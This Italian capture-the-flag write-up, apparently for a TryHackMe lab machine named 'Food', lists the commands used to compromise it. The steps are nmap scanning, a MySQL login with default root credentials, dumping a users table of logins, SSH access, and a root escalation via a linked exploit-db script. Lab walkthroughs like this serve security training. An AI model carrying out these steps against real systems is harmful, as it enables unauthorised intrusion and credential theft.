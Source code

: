 # FOOD

### ENUMERAZIONE

scan della macchina per torvare possibili porte e la versione di queste. spiegazione [NMAP](Koth-THM/TOOLS.md)

```bash
nmap food.thm -sV -sC 
```

dalla scansione notato che è aperto un servizio sql andiamo ad analizzarlo meglio con nmap.

```bash
nmap food.thm -sV --script *sql* 
```
quando nmap finisce lo scan ci restituisce dati molto utili, per esempio che l'utente di mysql è root:root
e questo ci da carta bianca sulla conessione all'sql.

### SERVIZIO SQL

quindi colleghiamoci all'sql e vediamo che dati contiene

```bash
mysql -u root -h 10.10.79.244 -p
```
successivamente mi faccio dumpare tutti i database presenti.

```bash
show databases;
```
```bash
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
```
ecco la tables che ci serve andiamo a prenderla.
```bash
use users
```
e successivamente. 
```bash
show tables;
```
adesso abbiamo trovato una tables di nome user andiamo a leggere cosa c'è dentro.
```bash
SELECT * FROM User;
```


ramen    ***************                       
flag     ************************************* 


ecco un utente con la sua password e un flag!

entriamo in ssh.

## SSH
spiegazione [ssh](TOOLS.md)
```bash
ssh ramen@food.thm
```
controllate in giro ci dovrebbero essere altre flag che potete prendere.

facendo un controllo dei permessi che abbiamo.
ho notato che possiamo fare davvero molto poco, quindi sono andato a cercare le vulnerabilità per quanto riguarda GNU, e ne ho trovata una davvero interessate
andiamo ad utilizzarla.

## PRIVESC

https://www.exploit-db.com/exploits/41154 ho usato questo exploit per fare priv esc,
questo exploit sfrutta un autenticazione di livello maggiore(root) e ci permette tramite un vulnerabilità presente in 
quest'ultima di fare priv esc.

una volta scaricato lo script lo passiamo sulla macchina il gioco è fatto.
```bash
chmod +x script.sh
./script.sh
```

